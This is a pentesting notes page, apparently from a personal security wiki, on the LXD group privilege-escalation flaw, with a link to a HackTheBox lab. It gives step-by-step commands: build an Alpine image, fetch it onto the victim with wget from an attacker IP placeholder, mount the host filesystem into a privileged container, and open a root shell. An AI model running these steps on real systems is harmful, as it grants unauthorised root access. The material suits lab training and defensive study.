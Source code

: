 ```yaml
---
title: lxd 
author: amandaguglieri
draft: false
TableOfContents: true
tags:
  - privilege escalation
  - linux
  - lxd
---
```


# lxd

LXD is a management API for dealing with LXC containers on Linux systems. It will perform tasks for any members of the local lxd group. It does not make an effort to match the permissions of the calling user to the function it is asked to perform.

A member of the local “lxd” group can instantly escalate the privileges to root on the host operating system. This is irrespective of whether that user has been granted sudo rights and does not require them to enter their password. The vulnerability exists even with the LXD snap package.

[Source: https://www.hackingarticles.in/lxd-privilege-escalation/](https://www.hackingarticles.in/lxd-privilege-escalation/). In this article, you can find a good explanation about how lxc works. [Original source: https://bugs.launchpad.net/ubuntu/+source/lxd/+bug/1829071](https://bugs.launchpad.net/ubuntu/+source/lxd/+bug/1829071).

## Privileges escalation

Privilege escalation through lxd requires the access of local account and that that local account belongs to the group lxd.

In order to take escalate the root privilege of the host machine you have to create an imag for lxd thus you need to perform the following the action:

**Steps to be performed on the attacker machine:**


```bash
# Download build-alpine in your local machine through the git repository:
git clone https://github.com/saghul/lxd-alpine-builder.git

# Execute the script “build -alpine” that will build the latest Alpine image as a compressed file, this step must be executed by the root user.
cd lxd-alpine-builder
sudo ./build-alpine

# This will generate a tar file that you need to transfer to the victim machine. For that you can copy that file to your /var/www/html folder and start apache2 service.
```

**Steps to be performed on the victim machine:**

```bash
# Download the alpine image. Go for instance to the /tmp folder and, if you have started the apache2 service in the attacker machine, do a wget:
wget http://AtackerIP//alpine-v3.17-x86_64-20230508_0532.tar.gz

# After the image is built it can be added as an image to LXD as follows:
lxc image import ./alpine-v3.17-x86_64-20230508_0532.tar.gz --alias myimage

# List available images:
lxc image list

# Initiate your image inside a new container
lxc init myimage ignite -c security.privileged=true

# Mount the container inside the /root directory
lxc config device add ignite mydevice disk source=/ path=/mnt/root recursive=true

# Initialize the container
lxc start ignite

# Launch a shell command in the container
lxc exec ignite /bin/sh
```


## Related labs

[HackTheBox machine Included](htb-included.md).

